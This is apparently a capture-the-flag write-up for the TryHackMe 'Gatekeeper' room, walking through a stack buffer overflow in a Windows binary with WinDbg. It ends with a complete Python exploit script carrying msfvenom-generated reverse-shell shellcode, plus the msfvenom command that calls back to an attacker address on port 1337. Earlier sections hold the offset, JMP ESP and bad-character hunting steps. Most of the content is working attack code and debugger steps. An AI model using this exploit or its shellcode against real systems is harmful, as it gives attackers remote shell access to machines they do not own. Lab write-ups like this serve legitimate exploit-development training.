










# GATE_KEEPER


Vanilla Based Stack Overflow :: https://tryhackme.com/room/gatekeeper

We can find the gatekeeper.exe file from one of the smb shares !

Let's explore the binary ; Open the binary and attack it to the Windbg ; This is not the detailed explained guide for BOF , for detailed guide visit [Sync Breeze 10.0.28](../SYNC_BREEZE_10.0.28/Sync%20Breeze%2010.0.28.md)


## CRASH THE PROGRAM !





Sending 200 A's , Crashed the program !



Now. Lets start the game !!


## FINDING OFFSET

As we crashed the binary , But we need to find the exact hit / offset , so we just hit the bridge !

Run the program and start the debugger ;





Check the EIP --> That's our offset point !!




Cool ! Now we find the exact offset ; Lets build the exploit !!


## CONTROL THE EIP 

Now as we know the exact offset ; Lets check weather we control the EIP or not and have space for our shellcode i.e the ESP !!


```control_eip
#!/usr/bin/python3
import socket

target = "192.168.247.10"
port = 31337


# FINAL BUFFER (IMPORTANT ORDER)
buffer = b"A" * 146
buffer += b"B" * 4
buffer += b"C" * (700 - len(buffer))

print(f"[+] Sending {len(buffer)} bytes...")

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.sendall(buffer + b"\n")
s.close()

print("[+] HACK THE PLANET !")
```


SImply , we sending the exact offset of A ; then 4 B's for the EIP and rest of C's to check the space for the shellcode !

Be ready with the Debugger !!




Lovely ! The EIP got our present ! Lets inspect the space.....


--> r [ Displays all integer registers and flags. ]

1 --> dds esp L4 [ Just display top 4 memory space of esp]

2 --> dds esp+2c0 L4 [ Display last 4 memory space of esp ]




--> ? 2 - 1 [ last address of 4444 in esp - first address of 4444 in esp ]


Cool ! we got 708 bits of free space in the buffer ! 

Now we need to find the JMP_ESP --> to land our EIP to the JMP_ESP --> then its gonna slide with NOPS to our shellcode !!


## FIND THE JMP ESP


Its simple to find the JMP_ESP ! In the same debugger !

 --> .load narly 

--> !nmod   [ We find only the main executable is under our control without ASLR or DEP protection and other dll's are kernel mode ; out of scope for now ]

--> s -b [start] [end] 0xff 0xe4 [this are the opcode for jmp esp]

--> u 080414c3 [our location for jmp esp]




Cool ! Now we find the address of jmp esp i.e the landing space of EIP ; Now the only thing left is finding the bad chars.


## LOCATING BAD CHARS...


A character is bad if :
1. using it changes the nature of crash ;
2. mangled in memory ;
3. NULL Bytes [0x00] used to terminate a string in C / C++ ; so we can't use those in our payload!

To determine Bad Chars --> we send all the possible hex-values ; repeat until we find the chars. to avoid !
1. Send all the hex char as buffer  --> crash the program ; 


```
buffer = b"A" * 146
buffer += b"B" * 4

buffer += (
    b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
    b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```


2. dbg > db esp -10 L20 / L180 --> we find which char. didnt flow to the memory , remove that char. --> and send it again and again until the flow is smooth !



We got 146 A's , 4 B's and our hex character except one missing that's 0x0a which counts as bad character  ! This one's was easier to find ; sometimes you gotta hit the walls finding fucking bad characters. 

Now leading to the mission , We are ready with our weapons ; Now generate the shellcode i.e reverse shell and build the final exploit !!


## FINAL EXPLOIT 


Generate reverse shell !

```reverse_shell
└─# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.226 LPORT=1337 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"

```


```python
#!/usr/bin/python3
import socket

target = "192.168.247.10"
port = 31337

offset = 146

eip = b"\xc3\x14\x04\x08"   # 0x080414c3 JMP ESP

nops = b"\x90" * 20       # NOPS SLEDS slides to our shellcode

shellcode = (
   b"\xba\x72\xe1\xb2\xbc\xdb\xcb\xd9\x74\x24\xf4\x5f\x33\xc9"
   b"\xb1\x52\x83\xef\xfc\x31\x57\x0e\x03\x25\xef\x50\x49\x35"
   b"\x07\x16\xb2\xc5\xd8\x77\x3a\x20\xe9\xb7\x58\x21\x5a\x08"
   b"\x2a\x67\x57\xe3\x7e\x93\xec\x81\x56\x94\x45\x2f\x81\x9b"
   b"\x56\x1c\xf1\xba\xd4\x5f\x26\x1c\xe4\xaf\x3b\x5d\x21\xcd"
   b"\xb6\x0f\xfa\x99\x65\xbf\x8f\xd4\xb5\x34\xc3\xf9\xbd\xa9"
   b"\x94\xf8\xec\x7c\xae\xa2\x2e\x7f\x63\xdf\x66\x67\x60\xda"
   b"\x31\x1c\x52\x90\xc3\xf4\xaa\x59\x6f\x39\x03\xa8\x71\x7e"
   b"\xa4\x53\x04\x76\xd6\xee\x1f\x4d\xa4\x34\x95\x55\x0e\xbe"
   b"\x0d\xb1\xae\x13\xcb\x32\xbc\xd8\x9f\x1c\xa1\xdf\x4c\x17"
   b"\xdd\x54\x73\xf7\x57\x2e\x50\xd3\x3c\xf4\xf9\x42\x99\x5b"
   b"\x05\x94\x42\x03\xa3\xdf\x6f\x50\xde\x82\xe7\x95\xd3\x3c"
   b"\xf8\xb1\x64\x4f\xca\x1e\xdf\xc7\x66\xd6\xf9\x10\x88\xcd"
   b"\xbe\x8e\x77\xee\xbe\x87\xb3\xba\xee\xbf\x12\xc3\x64\x3f"
   b"\x9a\x16\x2a\x6f\x34\xc9\x8b\xdf\xf4\xb9\x63\x35\xfb\xe6"
   b"\x94\x36\xd1\x8e\x3f\xcd\xb2\x70\x17\xe0\xa0\x19\x6a\xfa"
   b"\x21\xe3\xe3\x1c\x43\x03\xa2\xb7\xfc\xba\xef\x43\x9c\x43"
   b"\x3a\x2e\x9e\xc8\xc9\xcf\x51\x39\xa7\xc3\x06\xc9\xf2\xb9"
   b"\x81\xd6\x28\xd5\x4e\x44\xb7\x25\x18\x75\x60\x72\x4d\x4b"
   b"\x79\x16\x63\xf2\xd3\x04\x7e\x62\x1b\x8c\xa5\x57\xa2\x0d"
   b"\x2b\xe3\x80\x1d\xf5\xec\x8c\x49\xa9\xba\x5a\x27\x0f\x15"
   b"\x2d\x91\xd9\xca\xe7\x75\x9f\x20\x38\x03\xa0\x6c\xce\xeb"
   b"\x11\xd9\x97\x14\x9d\x8d\x1f\x6d\xc3\x2d\xdf\xa4\x47\x4d"
   b"\x02\x6c\xb2\xe6\x9b\xe5\x7f\x6b\x1c\xd0\xbc\x92\x9f\xd0"
   b"\x3c\x61\xbf\x91\x39\x2d\x07\x4a\x30\x3e\xe2\x6c\xe7\x3f"
   b"\x27"
  )
  
## FINAL PAYLOAD

buffer = b"A" * offset
buffer += eip
buffer += nops
buffer += shellcode

print(f"[+] Sending {len(buffer)} bytes...")

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.sendall(buffer + b"\n")
s.close()

print("[+] HACK THE PLANET !")

```


Now , Before running the exploit ! In Windbg

First :
--> bp 0x080414c3  [Break Point at the jmp esp --> so program stops at bp ]

--> g [Run the debugger]


Second : 
Run the exploit -> then program stops at bp i.e jmp esp [Check EIP --> 080414c3 ? ]


Then : 
--> t [Next Step -->NOPS]

--> dd esp [Is it nops and then our shellcode! ]





Finally : 
--> g [run the program -> FUCKING CHECK YOUR NETCAT LISTENER !! ]


Now , At this point if you have done everything correctly , reverse shell popped at your door !!


After this point you dont need debugger anymore ; Just run the final exploit --> get reverse shell ! 

BOOM !!


